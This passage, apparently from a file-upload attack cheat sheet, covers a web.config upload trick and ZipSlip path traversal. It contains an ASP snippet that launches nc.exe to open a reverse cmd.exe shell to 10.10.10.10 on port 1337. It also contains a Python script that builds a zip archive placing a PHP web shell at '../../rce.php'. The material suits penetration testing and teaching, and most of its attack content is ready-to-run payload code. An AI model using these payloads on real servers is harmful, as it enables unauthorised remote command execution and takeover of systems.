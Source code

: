 ```
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
Set objShell = CreateObject("WScript.Shell")
objShell.Exec("c:\users\test\documents\nc.exe -d 10.10.10.10 1337 -e c:\windows\system32\cmd.exe")
Response.write("<!-"&"-")
%>
-->
```

#### Resources

-   [Soroush’ blog post on web.config uploads](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/)

## ZipSlip

Zip Slip is a vulnerability discovered by the Snyk Security Research Team, that exists when a file upload functionality accepts, and extracts zip files without proper security measures in place. This vulnerability allows for writing to paths outside the intended upload directory, and in some cases, RCE.

The vulnerability takes advantage of zips that may contain files with specifically placed payloads set to the names, that once extracted, lead to a path traversal, and can write any file to any directory the webserver has access to.

For example, we can generate a malicious zipslip file with the script listed below, which then contains the path traversal file. Upon listing the files within the zip: ![](https://i.imgur.com/Y2aYr5J.png)

This clearly displays the zip file to contain “../../rce.php”, which once extracted, will traverse out of a vulnerable application’s intended directory.

The vulnerability has been found to exist in a variety of different popular libraries and products, such as, the Fortify Cloud Scan Jenkins Plugin, the AWS Toolkit for Eclipse, Apache Maven and more. The full list of vulnerable libraries / products can be found [here](https://github.com/snyk/zip-slip-vulnerability).

A useful video to explain this vulnerability further can be found on [LiveOverflow’s YouTube](https://www.youtube.com/watch?v=Ry_yb5Oipq0).

#### Generate malicious Zip Slip file:

```python
#!/usr/bin/python
import zipfile
from cStringIO import StringIO

def _build_zip():
    f = StringIO()
    z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
    z.writestr('../../rce.php', '<?php system($_GET["cmd"]); ?>')
    z.close()
    zip = open('rce.zip','wb')
    zip.write(f.getvalue())
    zip.close()

_build_zip()
```
